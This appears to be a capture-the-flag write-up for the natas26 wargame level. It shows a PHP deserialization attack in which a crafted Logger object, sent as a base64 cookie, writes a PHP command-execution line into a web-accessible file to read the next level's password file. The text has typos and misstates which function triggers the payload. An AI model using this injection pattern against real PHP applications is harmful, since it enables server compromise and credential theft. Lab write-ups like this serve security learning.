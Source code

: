 # natas26

This problem is based on deserialization. If you open the cookies, you see `drawing` cookie which is base64 encoded, and when you decode it, you see php arrays and serials for each image you creat with data as x1, x2, etc. When you open the source code, th `Logger` class creates "magic functions" `__construct` and `__destruct` which you can do serialization and unserialization of (read about php class log serializations.)

So our goal will be to make a cookie which will be unserialized by the server and regarded as Logger. This will be executed to fetch our password from `/etc/natas_webpass/natas27`. So let's build the cookie-
```php
<?php
class Logger
{
    private $logFile;
    private $initMsg;
    private $exitMsg;
    function __construct($file)
    {
        // initialise variables
        $this->initMsg="Hello\n";
        $this->exitMsg="Goodbye <? passthru('cat /etc/natas_webpass/natas27'); ?>\n\n";
        $this->logFile = "img/password.php";
    }
}
$object = new Logger("Security Times");
echo "Serialized Object : ".serialize($object)."<pre>\n\n</pre>Base64 encoded serialized object : ".urlencode(base64_encode(serialize($object)));
?>
```
The above codes creates an object of class `”Logger“`. Creation of an object sends a call to `__construct()` function which executes our command and stores the result in `img/password.php` file.
Now what we do to get the appropriate cookie is to make a php file with above conde in it, run -
```bash
php natas26_phpcode.php
```
And we get the serialized object + basee64 encoded version too, which is inputted as drawing cookie and refreshed. Now traverse to `/img/password.php` and you get your password for the next level.
